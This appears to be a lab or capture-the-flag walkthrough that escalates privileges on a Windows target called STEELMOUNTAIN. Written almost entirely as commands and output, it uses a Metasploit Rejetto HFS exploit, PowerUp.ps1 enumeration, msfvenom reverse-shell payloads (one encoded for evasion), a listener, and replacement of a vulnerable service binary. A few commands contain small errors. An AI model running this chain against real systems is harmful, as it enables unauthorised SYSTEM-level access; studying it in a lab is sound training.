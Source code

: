 Use exploit, upload PowerUp.ps1, stop service, generate/upload reverse shell, setup listener, restart service, get reverse shell

# msfconsole -> meterpreter

$ msfconsole

search xxxx
use 0
options
set RHOSTS xxx
set RPORT xxx
exploit

meterpreter > getuid 
meterpreter > cd c:\user\xxx\Desktop 
meterpreter > Crt Z


## Execute Powershell script 
$ wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

meterpreter > upload PowerUp.ps1
meterpreter > load powershell
meterpreter > powershell_shell
PS > . .\Powerup.ps1
PS > Invoke-Allchecks  


## PowerUp.ps1 output
ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
__ModifiablePath__ : @{ModifiablePath=C:\Program Files (x86)\IObit; IdentityReference=STEELMOUNTAIN\bill;
                 Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
__CanRestart__     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths


## Stop windows service

meterpreter > shell
C:\Users\xxx> ssc stop ASCService
Ctr-Z

## Generate reverse shell

__Basic bin__
$ msfvenom -p windows/shell_reverse_tcp LHOST=CONNECTION_IP LPORT=4443 -f exe  -o ASCService.exe

__Meterpreter + stealth + service__
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=CONNECTION_IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe

## Setup listener 
  

meterpreter > background
msf5 exploit(windows/http/rejetto_hfs_exec) > use multi/handler
msf5 exploit(multi/handler) > set payload windows/shell_reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.10.121.196
msf5 exploit(multi/handler) > set LPORT 4443
msf5 exploit(multi/handler) > run -j
msf5 exploit(multi/handler) > sessions 2
[*] Starting interaction with 2...

    
## Upload new service
  
meterpreter >upload Advanced.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"

## Start windows service

meterpreter > shell
C:\Users\xxx> sc start ASCService
Ctr-Z





